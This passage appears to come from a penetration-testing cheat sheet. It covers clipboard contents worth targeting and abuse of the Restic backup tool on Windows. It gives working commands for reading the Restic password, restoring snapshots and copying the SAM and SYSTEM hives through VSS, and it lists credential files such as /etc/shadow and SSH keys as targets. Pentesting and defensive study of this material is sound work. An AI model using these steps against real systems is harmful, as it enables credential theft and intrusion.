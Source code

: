 ### Clipboard Target Data
```cmd
# Common clipboard contents:
- Passwords from password managers
- 2FA tokens & soft tokens
- Database connection strings
- API keys & authentication tokens
- RDP session clipboard data
- Copy-pasted credentials
```

## 💾 Backup System Exploitation

### Restic Backup System
```cmd
# Restic backup locations:
C:\Windows\System32\restic.exe    # Common installation
E:\restic\                        # Repository location

# Environment variable check:
echo $env:RESTIC_PASSWORD

# Repository operations:
restic.exe -r E:\restic2 snapshots    # List backups
restic.exe -r E:\restic2 restore <ID> --target C:\Restore
```

### Backup Repository Enumeration
```powershell
# Initialize repository access:
$env:RESTIC_PASSWORD = 'Password'
restic.exe -r E:\restic2 init

# Create backups with VSS:
restic.exe -r E:\restic2 backup C:\Windows\System32\config --use-fs-snapshot

# Restore specific snapshots:
restic.exe -r E:\restic2 restore 9971e881 --target C:\Restore
```

### Backup Target Analysis
```cmd
# Windows backup targets:
C:\Windows\System32\config\SAM     # Local account hashes
C:\Windows\System32\config\SYSTEM  # System hive
C:\inetpub\wwwroot\web.config      # IIS application configs
C:\Program Files\*\config\         # Application configurations
C:\Users\*\.ssh\                   # SSH keys
C:\Users\*\Documents\              # User documents

# Linux backup targets:
/etc/shadow                        # User password hashes
/etc/passwd                        # User accounts
/home/*/.ssh/                      # SSH keys
/var/www/html/                     # Web applications
/opt/*/config/                     # Application configs
```

